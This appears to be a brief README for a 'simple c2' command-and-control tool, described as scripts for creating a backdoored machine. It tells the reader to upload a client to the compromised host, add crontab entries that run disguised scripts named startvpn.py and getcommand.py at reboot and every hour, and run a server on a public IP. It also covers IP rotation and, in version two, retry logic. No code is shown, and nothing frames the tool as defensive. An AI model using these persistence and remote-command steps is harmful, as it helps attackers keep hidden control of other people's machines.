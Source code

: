 simple c2 it is a set of scripts for creating backdoored machine

1. register a domain name ip rotation
2. upload client to backdoored machine
3. add the following command to `crontab -e`:

`@reboot /usr/bin/python3 /home/startvpn.py >> /var/log/startovp.log 2>&1`
`0 * * * * /usr/bin/python3 /home/getcommand.py >> /var/log/getcommand.log 2>&1`

4. upload server to your remote server with public ip
5. run server.py `python3 server.py`
6. ...
7. profit


whats new in version 2?

1. network retry until it works
2. split client into 2 files in order to run it separetely
